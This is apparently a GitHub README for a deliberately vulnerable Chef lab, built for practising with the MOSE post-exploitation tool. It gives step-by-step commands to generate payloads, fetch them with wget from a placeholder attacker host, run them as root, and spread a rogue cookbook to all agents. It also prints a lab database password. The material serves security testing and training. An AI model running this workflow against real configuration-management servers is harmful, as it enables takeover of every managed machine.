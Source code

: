 # chef-test-lab

[![License](https://img.shields.io/github/license/master-of-servers/chef-test-lab?label=License&style=flat&color=blue&logo=github)](https://github.com/master-of-servers/chef-test-lab/blob/main/LICENSE)
[![Build Status](https://dev.azure.com/jaysonegrace/chef-test-lab/_apis/build/status/master-of-servers.chef-test-lab?branchName=main)](https://dev.azure.com/jaysonegrace/chef-test-lab/_build/latest?definitionId=36&branchName=main)

Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in
a controlled environment; it contains vulnerable assets.**

## Dependencies

You must download and install the following for this environment to work:

- [Vagrant](https://www.vagrantup.com/downloads.html)
- [Docker](https://docs.docker.com/install/)
- [Docker Compose](https://docs.docker.com/compose/install/)

## Vagrant Lab Build Instructions

To create an environment with a Chef Workstation
and a Chef Server that controls multiple agents, run the following command:

```bash
cd vagrant && make build && make run
```

### To run MOSE against the vagrant chef workstation

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE:

   ```bash
   ./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef
   ```

3. Login to the chef workstation:

   ```bash
   # The password is vagrant
   vagrant ssh chef_workstation
   ```

4. Escalate to root with `sudo su`
5. Download the binary from MOSE:

   ```bash
   wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
   ```

6. Run the payload:

   ```bash
   chmod +x chef-linux; ./chef-linux
   ```

7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually:

   ```bash
   # The password is vagrant
   vagrant ssh chef_agent_1
   sudo su
   chef-client
   ```

8. For this example, you should note that a file
   has been created in `/tmp` in all of the chef-agent
   virtual machines, as we specified in step 2.

### To run MOSE against the vagrant chef server

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE:

   ```bash
   ./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10
   ```

   2a. The exfil listener time can be set with the `-ep` parameter
   2b. The `-rhost` parameter is a necessity if running against a chef-server.

3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a
   workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it
   were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents
   and kick off the payload manually: `vagrant ssh chef_agent_1`
   (the password is vagrant) <br/>
   9a. Escalate to root with `sudo su` <br/>
   9b. Run `chef-client`
10. For this example, you should note that a file has been
    created in `/tmp` in all of the chef-agent virtual machines,
    as we specified in step 2.

## Docker Lab Build Instructions

To create an environment with a Chef Workstation and a
Chef Server that controls a single agent, run the following command:

```bash
cd docker/basic && make run
```

### To run MOSE against the docker chef workstation

1. Build MOSE using `make build` in the MOSE repo
2. Wait for 15 minutes or so for the environment to start working.
   You can track the progress with this command:

   ```bash
   while true; do sleep 2; docker logs basic-chef-workstation; done
   ```

   You will know it's done when you see this:

   ```yaml
   id: mysql_pw
   password: TheM0stS3cr3T!!!
   user: mysql
   ```

3. Generate a payload with MOSE:

   ```bash
   ./mose -c "touch /tmp/test.txt && echo test >> /tmp/test.txt" -t chef -f "${PWD}/payloads/chef-linux"
   ```

   and be sure to answer `Y` when prompted.

4. Transfer the payload to the chef workstation container:

   ```bash
   docker cp payloads/chef-linux basic-chef-workstation:/chef-linux
   ```

5. Run the payload:

   ```bash
   docker exec -i basic-chef-workstation /bin/bash -c "echo 'n' | /chef-linux"
   ```

6. Wait for 30 minutes or exec into the agent and
   kick off the payload manually:

   ```bash
   docker exec -i basic-chef-agent-1 /bin/bash -c "chef-client"
   ```

7. Observe that a file has been created on the agent
   in `/tmp`:

   ```bash
   docker exec -i basic-chef-agent-1 /bin/bash -c "cat /tmp/test.txt"
   ```

**Please note:**
The docker lab does not support transferring payloads to the
target via the web server. You can however generate a payload with
the `-f` parameter and transfer it via `docker cp`.

To tear down the test environment, run the following command:

```bash
make destroy
```

## Credits

The chef server docker container is provided
courtesy of [this repo](https://github.com/c-buisson/chef-server).
